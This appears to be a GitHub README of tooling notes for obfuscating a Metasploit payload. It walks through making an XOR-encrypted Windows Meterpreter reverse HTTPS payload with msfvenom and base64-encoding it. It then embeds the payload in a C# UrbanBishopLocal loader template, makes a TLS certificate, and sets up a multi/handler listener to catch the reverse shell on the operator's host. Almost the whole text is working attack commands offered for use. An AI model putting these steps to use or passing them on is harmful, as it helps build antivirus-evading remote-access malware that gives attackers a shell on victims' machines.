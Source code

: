 # Payload-Obfuscation
Some Usefull tools and specific modus operanti to obfuscate payload  

### Payload generation

```sh
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<OurIPADRESS> LPORT=443 --encrypt xor --encrypt-key <helloworld> --format raw > testf
```  
<helloworld> are the key but we can write what we want.  

### Hex data dump

```sh
hexdump -v -e '"\\""x" 1/1 "%02x" ""' <testf>
```  

### Convert data to Base64  
```sh
base64 <testf> > <newtest>
```

### Generate Key and certificate to obfuscate more seriously
```sh
openssl req -newkey rsa:4096 \
            -x509 \
            -sha256 \
            -days 3650 \
            -nodes \
            -out example.crt \
            -keyout example.key
```  
- Concatenate two files in one 

example.key & example.crt > example.pem

### UrbanBishopLocal (for compile c# progam)  
- https://github.com/slyd0g/UrbanBishopLocal  
on windows machine install git, netcore and vscode, in the vscode install the c# extension  
```sh
dotnet new console -o nameofproject
cd nameofproject
code . (allowing to open the progam.cs in vscode directly)
```   
--> in this part we will make a copy of the code in the UrbanBishopLocal folder which named program.cs --> it's template to make the obfuscation of our payload (just copy our base64 code at the end progam.cs), but also we specified the same key which we are defined in the msfvenom part.
#### don't forget the c# extension  

```sh
dotnet build
```  
### Metasploit

```sh
msfconsole  
use exploit/multi/handler  
set HandlerSSLCert </home/PATH/TO/THE/example.pem> (of the key we are generate earlier)  
set StagerVerifySSLCert true  
set LHOST <ourIPADRESS>  
set LPORT 443  
exploit
```  
